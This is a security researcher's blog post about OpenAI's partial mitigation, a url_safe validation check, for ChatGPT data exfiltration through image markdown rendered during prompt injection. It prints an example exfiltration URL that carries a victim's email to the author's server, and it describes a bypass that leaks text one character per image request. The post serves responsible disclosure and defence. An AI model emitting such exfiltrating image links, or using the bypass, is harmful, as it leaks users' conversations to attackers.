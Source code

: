 ```yaml
---
title: "OpenAI mitigates data exfiltration vulnerability in ChatGPT (more improvements needed)"
date: 2023-12-20T02:35:07-08:00
draft: true
tags: [
     "aiml", "machine learning","red","chatgpt","data exfiltration"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "ChatGPT: OpenAI mitigates data exfiltration vulnerability"
  description: "Good news. It appears that OpenAI started mitigating the image markdown data exfiltration angle."
  image: "https://embracethered.com/blog/images/2023/openai-fix-3.png"
---
```


OpenAI seems to have implemented a first mitigation for a well-known data exfiltration vulnerability in ChatGPT. Attackers can use image markdown rendering during Prompt Injection to send data to third party servers without the users' consent. 

The fix is not perfect but a step into the right direction. In this post I share what I figured out so far about the fix after looking at it briefly this morning.

## Background

Yesterday I was doing a live demo of the [data theft GPT](/blog/posts/2023/openai-custom-malware-gpt/) with a consenting victim. ChatGPT was still vulnerable to data exfiltration via image markdown injection and my server received the conversation details:

[![OpenAI Raeuber](/blog/images/2023/openai-last.png)](/blog/images/2023/openai-last.png)

Needless to say and as you can read in the screenshot above (sorry it's in German) the user was not too amused about this. 

The data exfiltration vulnerability was first reported to OpenAI early April 2023, but remained unaddressed.

Starting today it appears that a mitigation has been implemented. 🎉🎉🎉

## The Mitigation

It's a new kind of mitigation, different from how other vendors fixed this vulnerability.

When the server returns an image tag with a hyperlink there is now a ChatGPT client side call to a validation API before deciding to display an image.

The call is to an endpoit called `url_safe`:

```
https://chat.openai.com/backend-api/conversation/[id]/url_safe
```

where it appends the target URL as query parameter

```
?url=https://wuzzi.net/r?thief=johannr@example.org
```

and in this case it returns: 

```
{"safe":false}
```

`safe=false` means that it will not render the image and perform the request to the attackers server!


[![OpenAI Mitigation](/blog/images/2023/openai-fix-3.png)](/blog/images/2023/openai-fix-3.png)


It still renders **other** images though.

Since ChatGPT is not open source and the fix is not via a Content-Security-Policy (that is visible to users and researchers) the exact validation details are not known. 

There is some internal decision making happening when an image is considered safe and when not, maybe ChatGPT queries the Bing index to see if an image is valid and pre-existing or have other tracking capabilities and/or other checks.

**This is good news.**

Having a central validation API hopefully also means that Enterprises customers will be able configure this setting to further increase the security posture of ChatGPT for their environments.

## Not a perfect fix - Remaining Concerns

As stated, it's not a perfect fix. 

It is still renders requests to arbitrary domains at times, and it can be used to send data out. Obvious trickeries like splitting text into individual characters and creating a request per character for instance showed some (limited) success at a first glance. It only leaks small amounts this way, is slow and more noticable to a user and also to OpenAI if logs of the `url_safe` API are reviewed and monitored. 

To give an example out of 36 characters (a-z 0-9) I got nine of them rendered via unique URLs. So for instance this URLs exfiltrates (and also renders) the letter `a` and passed the check: `/url_safe?url=https://wuzzi.net/img/a.png`

Here is a demo showing leaking of individual characters (from experience we know that attacks usually get better over time):

[![OpenAI Bypass Char by Char](/blog/images/2023/openai-fix-bypass-char-by-char.png)](/blog/images/2023/openai-fix-bypass-char-by-char.png)

Above exfiltrates the text "hi" to the third party server by sending each letter as a seperate request. 

So, the current mitigation is a step in the right direction, more might be needed.

**I would suggest to OpenAI to limit the number of images that are rendered per response to just one or maybe a handful maximum, as that will further mitigate some of these bypass trickeries.** 

Its unclear why:
* `https://wuzzi.net/img/a.png` is a safe URL and is rendered but
* `https://wuzzi.net/img/d.png` is not a safe URL?

Sharing the details of the validation check would also improve confidence in the mitigation, after all I hope it is not an LLM alone that checks if the URL is safe. :)

## Conclusion

- The validation check for safe URLs improves the security posture and should allow OpenAI to monitor for attacks and notice patterns, which is good.  

- The decision details on when a URL is considered safe are not known.

- It's not a 100% perfect mitigation to prevent sending information to third party servers. Some quick tests show that bits of info can steal leak, but it is a step in the right direction for sure.

As you can imagine I'm quite happy about this improvement. After the lenghty discussions I had with OpenAI in April and the many more demos I created to raise awareness across the industry. With each new feature risks increase (Plugins, Browsing, Code Interpreter, GPTs, GPT Store,...) and its good to see mitigations being considered now.